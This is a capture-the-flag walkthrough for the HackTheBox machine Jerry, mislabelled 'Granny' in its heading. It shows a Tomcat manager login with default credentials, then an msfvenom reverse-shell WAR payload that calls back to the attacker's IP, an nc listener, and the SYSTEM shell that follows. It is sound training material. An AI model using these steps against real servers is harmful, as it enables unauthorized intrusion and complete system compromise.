





# Granny
https://app.hackthebox.com/machines/Jerry


Target IP
10.10.10.95

## Enumeration
---

First lets start with [AutoRecon](https://github.com/Tib3rius/AutoRecon).
```
sudo $(which autorecon) 10.10.10.95
```

### Nmap

From Nmap results returned from AutoRecon we see that only port 8080 is open and Appache Tomcat is running on it.

```
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
```

The nmap scan AutoRecon run for each open port also returned that we have a few pages with Basic authentication

```
| http-auth-finder: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.95
|   url                                        method
|   http://10.10.10.95:8080/manager/status     HTTP: Basic
|   http://10.10.10.95:8080/manager/html       HTTP: Basic
|_  http://10.10.10.95:8080/host-manager/html  HTTP: Basic
```

### Webpage

Trying to access the `manager` one, results on a prompt asking for username and password.



If we cancel the prompt, we are redirect to an error page with some interesting information.



The error page shows a default password username `tomcat` password `s3cret`. If we reload the page and try to use this credential we get access.



## Exploitation

Now we are logged in to the manager app and we can get a shell from here. We are on an apache tomcat server and apache tomcat uses WAR files. To get a reverse shell we will use `msfvenom` to create the payload:

For that we will need to know our HackTheBox VPN IP.
```
$ ip a | grep -E 'inet.+tun0' | awk '{print $2}' | awk -F'/' '{print $1}'
10.10.14.2
```

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f war -o jspshell.war
Payload size: 1083 bytes
Final size of war file: 1083 bytes
Saved as: jspshell.war
```

Now we can upload and deploy our payload on the server.





We then open our listner...
```
$ nc -nlvp 4444
listening on [any] 4444 ...
```

... and call the application we uploaded.

```
$ curl http://10.10.10.95:8080/jspshell/
```

As soon as the application is executed, we get a shell

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

The `whoami` command revels that we are *system* on the target.
```
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

We can now get our flags/proof :-)

```
C:\Users\Administrator\Desktop\flags>hostname && whoami && ipconfig && type "2 for the price of 1".txt
hostname && whoami && ipconfig && type "2 for the price of 1".txt
JERRY
nt authority\system

Windows IP Configuration
Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::248
   IPv6 Address. . . . . . . . . . . : dead:beef::d187:5e06:5baa:6632
   Link-local IPv6 Address . . . . . : fe80::d187:5e06:5baa:6632%11
   IPv4 Address. . . . . . . . . . . : 10.10.10.95
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:adf7%11
                                       10.10.10.2

Tunnel adapter isatap.{E6565A26-EF2E-43A5-A579-B0F25E7B1DC8}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : htb

user.txt
700**************************d00

root.txt
04a**************************90e
```

## Extra

- This [GitHub Repo](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt) has a good list of default Tomcat passwords.
- This [script](https://github.com/mgeeky/tomcatWarDeployer) seems to automate the whole process. Maybe would be a good approach learn it later on.